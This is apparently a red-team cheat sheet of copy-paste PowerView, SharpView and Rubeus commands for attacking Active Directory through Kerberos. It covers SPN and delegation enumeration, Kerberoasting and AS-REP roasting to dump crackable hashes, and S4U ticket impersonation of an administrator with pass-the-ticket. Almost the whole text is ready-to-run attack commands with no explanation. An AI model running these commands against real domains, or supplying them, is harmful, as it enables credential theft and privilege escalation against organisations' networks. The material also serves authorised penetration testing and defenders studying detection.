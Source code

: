 ### **⚔️ Offensive Tools (PowerView / SharpView)**
- Load: `. .\\PowerView.ps1` or `SharpView.exe`
- Copy‑paste commands (Kerberos‑focused):
```powershell
# Domain and policy context
Get-Domain | fl *
Get-DomainPolicy

# SPN discovery variants
Get-DomainUser -LDAPFilter "(servicePrincipalName=*)" -Properties samaccountname,serviceprincipalname
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname
Get-DomainComputer -LDAPFilter "(servicePrincipalName=*)" -Properties name,serviceprincipalname
Get-DomainSPN -Verbose

# Kerberoast targeting
Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat
Get-DomainSPNTicket -UserName svc_sql
Get-DomainSPNTicket -SearchBase (Get-Domain).DistinguishedName -LDAPFilter "(servicePrincipalName=*http*)"

# AS-REP roasting
Get-DomainUser -PreauthNotRequired -Properties samaccountname | Select -Expand samaccountname

# Delegation discovery
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Get-DomainComputer -TrustedForDelegation
Get-DomainObject -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" -Properties *

# Enc types and UAC hunting
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Get-DomainUser -Properties msDS-SupportedEncryptionTypes

# Trusts and cross-forest context
Get-DomainTrust
Get-ForestTrust
```

```cmd
:: SharpView equivalents (examples)
SharpView.exe Get-DomainUser -SPN
SharpView.exe Get-DomainSPNTicket -SPN MSSQL/*
SharpView.exe Get-DomainUser -PreauthNotRequired
SharpView.exe Get-DomainComputer -TrustedForDelegation
```

### **🔴 Red Team Enumeration Tools**

#### Rubeus (tickets and roasting)
```cmd
Rubeus.exe asrep /user:USER [/domain:corp.local] /format:hashcat /outfile:asrep.txt
Rubeus.exe kerberoast /rc4opsec /outfile:spn_hashes.txt
Rubeus.exe asktgt /user:USER /password:P@ssw0rd! /ptt
Rubeus.exe s4u /user:svc_http /impersonateuser:admin /msdsspn:http/web01.corp.local /ptt
Rubeus.exe tgtdeleg
Rubeus.exe renew /ticket:BASE64TGT
Rubeus.exe purge
```
